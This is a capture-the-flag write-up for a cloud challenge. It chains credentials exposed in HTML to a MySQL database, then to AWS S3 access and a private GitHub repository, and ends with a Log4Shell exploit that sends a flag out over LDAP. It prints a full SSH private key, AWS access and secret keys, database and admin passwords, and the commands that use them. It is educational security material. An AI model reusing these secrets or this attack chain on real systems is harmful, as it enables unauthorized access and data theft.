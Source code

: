 # [Hard] Cloud Escalator Part 1 (300 points)

> The AI managed to get into our secure smart city portal, but we have no clue how it got there.
>
> Author information: This challenge is developed by Ankit Parashar, Vivek Mukkam Palavila Vijayan, Ralph van den Hoff and Fouad Aljaber.

- Guess and find `/login` endpoint. Could also be found by briefly using gobuster/dirbuster, etc.

- Go to `forgotpassword.html`. Look at HTML and find mysqldb credentials.
  - `mysql -u allen -p8%pZ-s^Z+P4d=h@P -h escalator.c45luksaam7a.us-east-1.rds.amazonaws.com`
  - Make use of SQL commands: `show databases;`, `show tables;`, `use <DATABASE_NAME>;`, `select * from <TABLE_NAME>;`...

- Interact with the mysqldb server and find first flag, git private key as well as AWS credentials
  - Flag present in `users.data`:
  ```
  CTF{!_p@wn3d_db_4_fu9
  ```
  
  - Git private key present in `env.git`
  
  ```
  -----BEGIN OPENSSH PRIVATE KEY-----
  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
  -----END OPENSSH PRIVATE KEY-----
  ```

  - AWS credentials present in `config.aws_env`
  ```
  user: s3user1
  access key: AKIAWSXCCGNYFS7NN2XU
  secret key: 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
  ```
- Make use of AWS Credentials.
  - Configure
  
  ```
  $ aws configure                                    
  AWS Access Key ID [****************N2XU]: AKIAWSXCCGNYFS7NN2XU
  AWS Secret Access Key [****************9P0I]: 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
  Default region name [us-east-1]: us-east-1
  Default output format [json]: json
  ```

  - List buckets
  ```
  $ aws s3 ls
  (escalator-logger-armour comes out to be the bucket name)

  $ aws s3 ls s3://escalator-logger-armour/
                             PRE new/
  2022-07-15 13:57:35      11351 Logs.txt

  $ aws s3 cp s3://escalator-logger-armour/Logs.txt .
  download: s3://escalator-logger-armour/Logs.txt to ./Logs.txt
  ```

  - Find github repository and second flag in Logs.txt file
  
  ```
  repo: github.com/cloudhopper-sec/app.git
  flag: CTF{S3eing_T3r0ugh_!t}
  ```

- Make use of ssh private key to clone repo. In the file `~/.ssh/config`, write the following:

  ```
  Host github
    HostName github.com
    IdentityFile /home/arrow/Desktop/ctf/hackazon-deloitte-2022/cloud-esacalator-part-1/git-private-sshkey.key
    IdentitiesOnly Yes
  ```

  Clone repository with `git clone git@github:cloudhopper-sec/app.git`

- Git diff between latest two commits gives us admin password. Logging in gives us the third flag.

  ```bash
  $ git diff HEAD HEAD~1

  diff --git a/src/main/java/com/cloudEscalator/util/CookieHandler.java b/src/main/java/com/cloudEscalator/util/CookieHandler.java
  index f787547..a7a0b8c 100644
  --- a/src/main/java/com/cloudEscalator/util/CookieHandler.java
  +++ b/src/main/java/com/cloudEscalator/util/CookieHandler.java
  @@ -9,8 +9,8 @@ import java.util.Optional;
  
  public class CookieHandler {
      private static final String LOGIN_COOKIE_NAME = "LoggedIn";
  -    private static final String USERNAME = "";
  -    private static final String PASSWORD = "";
  +    private static final String USERNAME = "admin";
  +    private static final String PASSWORD = "C@llTh3PluMM3r";
  
      private static final String SHA256_LOGIN_HASH = Hashing.sha256()
              .hashString(USERNAME+PASSWORD, StandardCharsets.UTF_8)
  ```

  Flag: `CTF{Y0u_G0t_A_l3ak}`

- Try different exploit strategies. Apache 8.0.36 has multiple severe CVEs present but it doesn't seem to work. Log4j version is 2.14.1 which is a vulnerable version.
  - Figure out that log4j can be used to
  - Setup log4j POC. Here's the one I used: https://github.com/marcourbano/Log4Shell_PoC
  - Change Exploit.java file in POC to send yourself the flag using ldap lookup
  - Flag: `CTF{H3aT_th3_L0GF0rg3}`
